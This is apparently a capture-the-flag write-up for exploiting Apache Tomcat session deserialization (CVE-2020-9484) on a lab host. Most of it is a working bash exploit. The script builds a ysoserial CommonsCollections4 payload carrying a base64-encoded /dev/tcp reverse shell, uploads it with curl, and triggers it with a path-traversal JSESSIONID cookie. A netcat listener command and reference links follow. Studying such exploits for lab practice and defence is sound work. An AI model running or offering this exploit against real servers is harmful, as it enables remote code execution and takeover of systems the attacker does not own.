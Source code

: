 






```bash
# download ysoserial from https://github.com/frohoff/ysoserial
# name it ysoserial.jar
# put it in the same folder where you will put the next script

# use this script to get shell:
filename=$(cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 32 | head -n 1)
ip=$1
port=$2
cmd="bash -c 'bash -i >& /dev/tcp/$ip/$port 0>&1'"
jex="bash -c {echo,$(echo -n $cmd | base64)}|{base64,-d}|{bash,-i}"
java -jar ysoserial.jar CommonsCollections4 "$jex" > /tmp/$filename.session

curl -s -F "data=@/tmp/$filename.session" http://10.10.10.205:8080/upload.jsp?email=test@mail.com > /dev/null
curl -s http://10.10.10.205:8080/ -H "Cookie: JSESSIONID=../../../../../../../../../../opt/samples/uploads/$filename" > /dev/null

# start nc listener:
nc -lvnp <port>

# run the script with your ip and port like this:
shell.sh <ip> <port>

# then you can get user.txt with:
cat ~/user.txt
```



running reverse shell normally wont work because of javas Runtime.exec(), so we have to create a workaround (http://www.jackson-t.ca/runtime-exec-payloads.html)
- try by entering normal payload e.g. `bash -i >& /dev/tcp/<ip>/<port> 0>&1`



---

ref:
- [masahiro331/CVE-2020-9484](https://github.com/masahiro331/CVE-2020-9484)
- [Apache Tomcat RCE by deserialization (CVE-2020-9484) – write-up and exploit](https://www.redtimmy.com/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/)
- [CVE-2020-9484 Tomcat RCE漏洞分析](https://mp.weixin.qq.com/s/OGdHSwqydiDqe-BUkheTGg)
- [IdealDreamLast/CVE-2020-9484](https://github.com/IdealDreamLast/CVE-2020-9484)
- [blog](https://estamelgg.github.io/posts/Feline/)
